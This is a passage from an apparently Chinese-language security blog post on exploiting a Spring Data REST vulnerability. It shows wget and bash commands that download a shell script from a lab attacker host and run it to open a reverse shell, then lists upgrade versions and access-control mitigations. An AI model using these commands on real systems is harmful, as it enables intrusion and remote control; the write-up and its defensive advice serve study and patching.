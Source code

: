 反弹shell：

写一个shell.sh文件，开启http服务：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083112.png)image-20210829223228384![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083113.png)image-20210829223331882

下载执行sh脚本：

    
    
    /usr/bin/wget -qO /tmp/shell.sh http://192.168.173.131/shell.sh  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083114.png)image-20210829223703018![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083115.png)image-20210829223713495![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083116.png)image-20210829223749707

执行shell.sh

    
    
    /bin/bash /tmp/shell.sh  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083117.png)image-20210829223919181

成功反弹。

#### 安全防护

  1. 受影响版本的用户应该应用以下缓解措施：

  * 2.0.x用户应该升级到2.0.6
  * 1.13.x用户应该升级到1.13.11
  * 旧版本应升级到受支持的分支

已解决此问题的发布版本包括：

  * Spring Data REST 2.6.11（Ingalls SR11）
  * Spring Data REST 3.0.6（Kay SR6）
  * Spring Boot 1.5.11
  * Spring Boot 2.0.1

  1. 使用Spring Security提供的身份验证和授权，限定特定访问。

对于该漏洞的底层原理分析可以看该文章：https://www.cnblogs.com/hac425/p/9656747.html

 **【往期推荐】**  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-Shellcode
Loader原理(python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-
分离+混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  
